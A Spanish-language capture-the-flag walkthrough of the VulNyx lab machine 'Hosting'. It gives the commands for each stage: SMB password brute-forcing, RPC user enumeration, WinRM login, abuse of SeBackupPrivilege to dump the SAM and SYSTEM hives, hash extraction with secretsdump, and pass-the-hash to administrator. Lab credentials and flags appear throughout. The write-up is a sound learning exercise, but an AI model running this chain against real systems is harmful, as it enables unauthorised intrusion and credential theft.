





___
Tags: #smb #smb-bruteforce #rpc-enumeration #winrm #sebackupprivilege #sam-system #pass-the-hash
___
# Hosting

## Información General

**- Dificultad:** Fácil <br>
**- Sistema operativo:** Window <br>
**- Vulnerabilidad explotada.**  Permisos mal configurado <br>
**- Fecha de resolución:** 7/05/2026 <br>
**- Enlace:** [Hosting](https://vulnyx.com/machines/) <br>

## Reconocimiento

**ARP-SCAN**

Ejecutamos el siguiente comando:

```
sudo arp-scan -I eth0 --localnet --ignoredups
```

<p align="center"> 

</p>

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.0.109
```

```bash
nmap -A 192.168.0.109
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-07 00:11 +0200
Nmap scan report for 192.168.0.109
Host is up (0.0019s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
MAC Address: 08:00:27:14:56:21 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 22H2
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Enumeración web

#### Gobuster

```
gobuster dir -u http://<ipVictima> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

>speed                (Status: 301) [Size: 161] [--> http://192.168.0.109/speed/]

<p align="center"> 

</p>

Observamos en la imagen lo siguiente el dominio de la maquina que es **hosting.nyx**
y los usuarios que compone ese dominio son:

 - **p.smith**
 - **a.krist**
 - **m.faeny**
 - **k.lendy**

## Explotación

```
crackmapexec smb 192.168.0.109 -u 'p.smith' -p /usr/share/wordlists/rockyou.txt
```

La contraseña que saco es **kissme** Por tanto la credencial quedaría. 
Credencial --> **p.smith**:**kissme**

```
rpcclient -U "p.smith%kissme" 192.168.0.109
querydispinfo
```

<p align="center"> 

</p>

Las "nuevas" credenciales --> **m.davis**:**H0$T1nG123!**

La pruebo con crackmapexec pero me sale erróneo

```
crackmapexec smb 192.168.0.109 -u 'm.davis' -p 'H0$T1nG123!' 
```

<p align="center"> 

</p>

Pero vemos que no cuadra, por tanto se me ocurre probar esa contraseña con los otros usuarios. Por tanto, con el usuario **j.wilson** si me lo de válido

```
crackmapexec smb 192.168.0.109 -u 'j.wilson' -p 'H0$T1nG123!'
```

<p align="center"> 

</p>

Intento probar con el usuario **j.wilson** si me deja logearme con evil-winrm 

```
evil-winrm -i 192.168.0.109 -u 'j.wilson' -p 'H0$T1nG123!' 
```

<p align="center"> 

</p>

flag user: **50e5add3f5cb0642fefc5e907086b313** 

## Escalada de Privilegios

Efectuamos el siguiente comando dentro de la sesión

```
whoami /priv
```

<p align="center"> 

</p>

Tenemos habilitado el permiso **SeBackupPrivilege** eso significa tener una vía directa para obtener privilegios de **Administrator** o **SYSTEM** en un equipo o Controlador de Dominio, saltándose las Listas de Control de Acceso

Para llevar a cabo el ataque realizamos el siguiente comando:

```
reg save HKLM\SAM sam ; reg save HKLM\SYSTEM system
```

- **`reg save HKLM\SAM sam`**: Crea una copia del archivo **SAM** (Security Account Manager). Este archivo contiene los hashes de las contraseñas de los usuarios locales (como el administrador local).

- **`reg save HKLM\SYSTEM system`**: Crea una copia del archivo **SYSTEM**. Este es fundamental porque contiene la **Boot Key** (clave de arranque), necesaria para descifrar el contenido del archivo SAM.

<p align="center"> 

</p>

```
download sam
dowload system
```

Una vez obtenido los archivos usaremos la herramienta **secretsdump**

```
impacket-secretsdump -system system -sam sam LOCAL
```

- **`impacket-secretsdump`**: Es el nombre de la herramienta dentro de la suite Impacket.
- **`-system system`**: Le estás indicando dónde está el archivo de la colmena **SYSTEM** que exportaste. Este archivo es la "llave" maestra. Contiene la clave necesaria para descifrar el contenido del SAM.
- **`-sam sam`**: Le indicas dónde está el archivo de la colmena **SAM**. Aquí es donde están guardados los usuarios locales y sus contraseñas en formato hash.
- **`LOCAL`**: Este parámetro es fundamental. Le dice a la herramienta que no intente conectarse a ninguna red ni a ninguna IP, sino que **trabaje con los archivos que tienes en tu carpeta actual**.

<p align="center"> 

</p>

```
evil-winrm -i 192.168.0.109 -u 'administrator' -H '41186fb28e283ff758bb3dbeb6fb4a5c'
```

<p align="center"> 

</p>

flag root: **9924b42399b3e0704068a3012871dc98**

## Conclusión

LA máquina Hosting de la plataforma VulNyx ha sido muy divertida y he aprendido un montón y repasado conceptos de AD.